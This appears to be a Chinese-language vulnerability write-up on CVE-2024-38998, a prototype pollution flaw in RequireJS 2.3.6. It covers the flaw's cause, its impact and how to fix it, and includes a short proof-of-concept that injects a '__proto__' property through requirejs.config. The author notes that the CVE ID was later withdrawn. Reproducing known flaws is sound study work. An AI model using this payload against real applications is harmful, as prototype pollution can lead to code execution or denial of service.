 # CVE-2024-38998 RequireJS v2.3.6 版本原型污染漏洞 

zan
---
## 漏洞描述

### 漏洞描述  

该漏洞影响 RequireJS v2.3.6，属于原型污染漏洞（Prototype Pollution）。攻击者可以通过向 vulnerable 函数（如 `config` 和 `s.contexts._.configure`）传递构造了特殊属性（例如 `__proto__`）的输入，进而污染全局对象的原型，可能导致任意代码执行、拒绝服务（DoS）或其他安全问题。

### 受影响版本  
RequireJS 版本 2.3.6（升级至 2.3.7 或更高版本可修复此问题）。

---


---
## 漏洞分析

1. **原理**  
   - JavaScript 中，所有对象默认继承自 `Object.prototype`，当攻击者将数据注入到 `__proto__` 时，就可以在全局范围内影响所有对象。  
   - 在 RequireJS v2.3.6 中，由于对输入数据未做严格校验，导致传入包含 `__proto__` 的数据时，恶意属性会被合并到全局原型中。

2. **可能影响**  
   - **任意代码执行**：如果后续代码依赖某个对象属性（例如执行 `eval` 或类似操作），污染后的属性值可能被利用执行恶意代码。  
   - **拒绝服务（DoS）**：污染全局原型可能导致意外错误、异常或资源耗尽，从而引发拒绝服务。

3. **修复建议**  
   - 升级 RequireJS 至 2.3.7 或更高版本。  
   - 对输入数据进行严格验证，避免直接合并外部输入到全局对象。

---
## 漏洞复现

### 环境准备

1. ### 测试环境  
   - 使用 Node.js 环境（确保支持 ES 模块导入）。
   - 在本地kali安装 RequireJS v2.3.6（或模拟该版本的行为）。

2. ### 依赖项  
   - Node.js 环境（推荐使用较新的 LTS 版本）。
   - RequireJS v2.3.6（可从 npm 下载特定版本）。

---

### 复现步骤

以下代码示例基于公开的 GitHub Gist（例如  和  提供的示例），演示了如何通过构造恶意输入来污染对象原型。

```javascript
// PoC 漏洞复现示例
(async () => {
  // 导入 requirejs 模块（确保使用 v2.3.6 版本）
  const requirejs = await import('requirejs');

  // 构造一个空对象作为受害者
  let victim = {};

  console.log("攻击前, victim.__proto__ =", JSON.stringify(victim.__proto__));

  try {
    // 调用 config 函数，传入包含 __proto__ 的恶意 JSON 数据
    requirejs.config(JSON.parse('{"__proto__": {"test": 123}}'));
    // 若模块内部调用 s.contexts._.configure 也接受同样的输入，则同样可导致原型污染
    requirejs.s.contexts._.configure(JSON.parse('{"__proto__": {"test": 123}}'));
  } catch (e) {
    console.error("调用过程中出现错误:", e);
  }

  console.log("攻击后, victim.__proto__ =", JSON.stringify(victim.__proto__));

  // 清理：删除原型中污染的属性，避免影响后续测试
  delete Object.prototype.test;
})();
```

**代码说明**  
- 首先，代码导入 RequireJS 模块（确保是 v2.3.6 版本）。  
- 构造了一个普通对象 `victim`。  
- 调用 `requirejs.config` 时，传入的 JSON 数据包含特殊属性 `__proto__`，导致所有对象的原型被注入 `test` 属性。  
- 如果 `s.contexts._.configure` 同样存在漏洞，则也能被利用。  
- 最后打印出攻击前后的对象原型变化，以确认是否成功污染。

---



---
## 个人吐槽及相关技术学习：
Javascript,本人也不熟，更别提RequireJS，Node.js ，但这白盒漏洞复现接触到了，那干脆就研究研究。

---
RequireJS 是JavaScript 的模块加载器器，处理模块间的依赖关系。
Node.js 为 JavaScript 提供运行环境，使其可以在非浏览器环境中运行。  

---
突然发现这漏洞编号已经被撤销了，那算了，暂时不研究了

----
